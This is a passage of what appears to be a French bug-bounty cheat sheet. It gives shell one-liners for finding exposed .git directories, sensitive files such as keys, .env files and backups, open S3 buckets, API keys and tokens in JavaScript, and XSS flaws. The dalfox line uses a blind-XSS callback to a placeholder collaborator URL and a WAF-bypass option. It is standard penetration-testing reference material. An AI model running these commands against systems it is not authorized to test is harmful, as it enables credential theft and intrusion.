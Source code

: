```
cat example.coms.txt | grep "SUCCESS" | gf urls | httpx-toolkit -sc -server -cl -path "/.git/" -mc 200 -location -ms "Index of" -probe
```

### Scanner de Divulgation d'Informations
Vérifie les vulnérabilités de divulgation d'informations en utilisant un scanner.

```
echo https://example.com | gau | grep -E "\.(xls|xml|xlsx|json|pdf|sql|doc|docx|pptx|txt|zip|tar\.gz|tgz|bak|7z|rar|log|cache|secret|db|backup|yml|gz|config|csv|yaml|md|md5|tar|xz|7zip|p12|pem|key|crt|csr|sh|pl|py|java|class|jar|war|ear|sqlitedb|sqlite3|dbf|db3|accdb|mdb|sqlcipher|gitignore|env|ini|conf|properties|plist|cfg)$"
```

### Recherche de Buckets AWS S3
Recherche les buckets AWS S3 associés à la cible.

```
s3scanner scan -d example.com
```

### Recherche de Clés API
Recherche les clés API et les tokens exposés dans les fichiers JavaScript.

```
cat allurls.txt | grep -E "\.js$" | httpx-toolkit -mc 200 -content-type | grep -E "application/javascript|text/javascript" | cut -d' ' -f1 | xargs -I% curl -s % | grep -E "(API_KEY|api_key|apikey|secret|token|password)"
```

## Test XSS

### Pipeline de Chasse au XSS
Collecte les vulnérabilités XSS en utilisant divers outils et les sauvegarde dans un fichier.

```
echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
```

### XSS avec Dalfox
Utilise Dalfox pour scanner les vulnérabilités XSS.

```
cat xss_params.txt | dalfox pipe --blind https://your-collaborator-url --waf-bypass --silence
```

### Recherche de XSS Stockés
Trouve les vulnérabilités XSS stockées potentielles en scannant les formulaires.

```
cat urls.txt | grep -E "(login|signup|register|forgot|password|reset)" | httpx -silent | nuclei -t nuclei-templates/vulnerabilities/xss/ -severity critical,high
```
